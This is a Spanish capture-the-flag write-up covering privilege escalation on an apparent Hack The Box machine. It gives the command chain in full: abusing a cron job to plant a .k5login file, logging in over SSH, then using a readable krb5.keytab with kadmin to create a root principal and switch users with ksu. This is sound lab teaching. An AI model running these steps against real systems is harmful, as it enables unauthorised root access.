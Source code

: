## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
id
cat /etc/crontab
```

Aqui vemos que hay una tarea que se ejecuta por el usuario admin cada minuto. El script es `/usr/local/bin/log_backup.sh`
Este archivo basicamente copia lo que hay en el directorio `/var/log/squid` en el directorio `/home/admin`.

```bash
cd /home/admin
cd /var/log/
ls -la | grep squid
```

Vemos que podemos escribir en el /var/log/squid pero no podemos entrar en el /home/admin.

Buscando por internet, vemos que existe un fichero que se puede poner en el directorio del usuario y que permite dar
conneccion con kerberos. Este fichero seria .k5login.


```bash
cd /var/log/squid/
echo 'j.nakazawa@REALCORP.HTB' > .k5login
```

Esperamos un poco y lanzamos desde nuestra maquina de atacante una conneccion ssh

```bash
ssh admin@10.10.10.224
```

Ahora que estamos conectados como admin miramos como nos podemos pasar a root


```bash
cd /
find / -type f -user admin 2>/dev/null
find / -type f -user admin 2>/dev/null | grep -v "proc"
find / -type f -user admin 2>/dev/null | grep -v -E "proc|cgroup"
find / -type f -group admin 2>/dev/null | grep -v -E "proc|cgroup"
```

Encontramos un fichero `/etc/krb5.keytab`

```bash
cat /etc/krb5.keytab
file /etc/krb5.keytab
```

Si buscamos lo que es por internet vemos que hay una via potencial de rootear esta maquina usando este fichero. La idea aqui seria
de crear un nuevo principal al usuario root cambiandole la contraseña.

```bash
klist -k /etc/krb5.keytab
kadmin -h
kadmin -kt /etc/krb5.keytab
kadmin -kt /etc/krb5.keytab -p kadmin/admin@REALCORP.HTB
?
addprinc root@REALCORP.HTB
password: test123
reenter password: test123
exit
```

Si ahora lanzamos 

```bash
ksu
Kerberos password for root@REALCORP.HTB: test123
whoami

#Output
root
```

Ya somos root y podemos leer la flag
